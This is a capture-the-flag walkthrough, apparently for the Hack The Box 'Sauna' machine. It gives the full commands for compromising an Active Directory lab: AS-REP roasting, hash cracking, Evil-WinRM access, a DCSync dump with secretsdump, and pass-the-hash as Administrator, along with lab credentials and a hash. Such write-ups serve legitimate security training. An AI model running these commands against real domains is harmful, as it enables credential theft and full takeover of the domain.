 ![Header](images/image0.png)

# Sauna - Penetration Testing Walkthrough (Extended Markdown Report)

This report documents the complete exploitation of the **Sauna** target machine (IP: `10.129.126.209`).  
It includes enumeration, Kerberos-based attacks, privilege escalation, and root flag retrieval.  
All images are referenced as relative links to the `images/` directory.

---

## 🧭 Enumeration

We began with a full Nmap scan to identify all open TCP ports and services running on the target host:

```bash
nmap -p- -Pn 10.129.126.209 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.126.209 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.126.209 -v --script vuln -oN nmap_vuln.txt
```

![Nmap Scan Results](images/image4.png)

The scan revealed **Kerberos (88/tcp)**, **LDAP (389/tcp)**, **SMB (445/tcp)**, and **HTTP (80/tcp)** — indicating a typical **Active Directory** environment.  
We noted the hostname references to **EGOTISTICAL-BANK.LOCAL**, confirming a domain controller setup.

---

## 🌐 Web Enumeration & User Discovery

Browsing the website at `http://10.129.126.209/` led us to an *About* page that listed team members under the “Our Team” section:

👉 [http://10.129.126.209/about.html#team](http://10.129.126.209/about.html#team)

![Team Page](images/image3.png)

We extracted the visible names and stored them in `names.txt` for further use.  
These names were likely employee names in the Active Directory domain.

---

## 👤 Username Generation for AD

To generate potential AD usernames from the discovered names, we used the **AD Username Generator** tool available on GitHub:

🔗 [https://github.com/mohinparamasivam/AD-Username-Generator](https://github.com/mohinparamasivam/AD-Username-Generator)

Command used:

```bash
python3 username-generate.py -u names.txt -o usernames.txt
```

This generated a structured list of usernames in formats such as `fsmith`, `hturner`, etc.

---

## 🧱 Kerberos Enumeration (AS-REP Roast)

Next, we checked whether any user accounts had **pre-authentication disabled**, allowing us to perform an **AS-REP Roast attack** using Impacket’s `GetNPUsers.py`:

```bash
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -dc-ip 10.129.126.209 -usersfile usernames.txt -outputfile asrep_users
```

![AS-REP Output](images/image1.png)

We successfully retrieved an AS-REP hash for **fsmith**, meaning that user account did not require pre-authentication.

We then cracked the hash using **John the Ripper**:

```bash
john --wordlist=rockyou.txt hash.txt
```

![Password Crack](images/image2.png)

The password `Thestrokes23` was successfully recovered, providing valid domain credentials.

---

## 💻 Initial Access (Evil-WinRM)

With credentials obtained for **fsmith**, we established a PowerShell session on the target via **Evil-WinRM**:

```bash
evil-winrm -i 10.129.126.209 -u fsmith -p Thestrokes23
```

![Evil-WinRM Access](images/image9.png)

The shell connected successfully, confirming our foothold as **fsmith**.  
The **user flag** was located on FSmith’s desktop.

---

## ⚙️ Privilege Escalation - Local Enumeration

To identify potential escalation vectors, we ran **WinPEAS**, an automated Windows privilege escalation script:

![WinPEAS Output](images/image5.png)

The enumeration revealed **Winlogon credentials** and multiple service accounts, including **svc_loanmanager**.  
We exported the results and cross-referenced them with **BloodHound** to visualize privilege relationships.

---

## 🧠 Domain Privilege Escalation via DCSync

In BloodHound, the **svc_loanmanager** account was shown to have **DCSync privileges**, allowing replication of password hashes from the domain controller:

![Bloodhound DCSync](images/image7.png)

We executed a **DCSync attack** using Impacket’s `secretsdump.py`:

```bash
impacket-secretsdump 'EGOTISTICAL-BANK.LOCAL'/'svc_loanmgr':'Moneymakestheworldgoround!'@'10.129.126.209'
```

![Secretsdump Output](images/image8.png)

This successfully dumped the **NTLM hash for Administrator**.

---

## 🧩 Pass-the-Hash Attack and Root Access

We then performed a **pass-the-hash** login with Evil-WinRM using the extracted Administrator hash:

```bash
evil-winrm -i 10.129.126.209 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

![Administrator Shell](images/image6.png)

We gained access as **Administrator**.  
The **root flag** was found on the Administrator’s desktop:

```
C:\Users\Administrator\Desktop\root.txt
```

---

## ✅ Conclusion

This engagement illustrates a full compromise of an Active Directory environment via enumeration and Kerberos exploitation.

**Attack Summary:**
1. Enumerated AD services via Nmap.  
2. Extracted usernames from the company’s website.  
3. Performed AS-REP Roast to retrieve and crack a user hash.  
4. Gained foothold as **fsmith** using Evil-WinRM.  
5. Discovered a service account with DCSync rights via BloodHound.  
6. Extracted Administrator hashes using Impacket.  
7. Performed pass-the-hash to obtain full system compromise.

---

## 🧰 Summary of Tools & Exploits Used

| **Tool / Technique** | **Purpose** | **Usage Phase** |
|-----------------------|-------------|-----------------|
| **Nmap** | Port and service discovery | Enumeration |
| **AD Username Generator** | Generate possible usernames for Kerberos enumeration | User Discovery |
| **Impacket - GetNPUsers.py** | Perform AS-REP roasting to obtain hashes | Kerberos Exploitation |
| **John the Ripper** | Crack AS-REP hashes | Credential Recovery |
| **Evil-WinRM** | Remote PowerShell access via valid credentials | Initial Access / Root Access |
| **WinPEAS** | Local enumeration for privilege escalation | Post-Exploitation |
| **BloodHound** | AD relationship mapping and privilege discovery | Domain Analysis |
| **Impacket - secretsdump.py** | DCSync attack to extract domain hashes | Privilege Escalation |
| **Pass-the-Hash (Evil-WinRM)** | Use NTLM hash to authenticate as Administrator | Root Access |

---

**User Flag Path:** `C:\Users\fsmith\Desktop\user.txt`  
**Root Flag Path:** `C:\Users\Administrator\Desktop\root.txt`

---
